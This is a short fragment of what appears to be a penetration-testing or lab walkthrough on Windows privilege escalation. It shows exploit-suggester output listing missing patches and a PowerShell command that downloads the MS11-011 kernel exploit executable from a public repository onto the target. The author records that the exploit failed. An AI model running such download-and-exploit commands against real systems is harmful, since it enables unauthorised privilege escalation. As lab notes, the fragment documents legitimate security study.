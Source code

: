 ```
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

### MS11-011 (CVE-2010-4398)

Credit to https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-011

```
c:\Users\tolis\Downloads>powershell -c (New-Object Net.WebClient).DownloadFile('https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS11-011/MS11-011.exe'), 'MS11-011.exe')
```

Did not work

TODO: system own


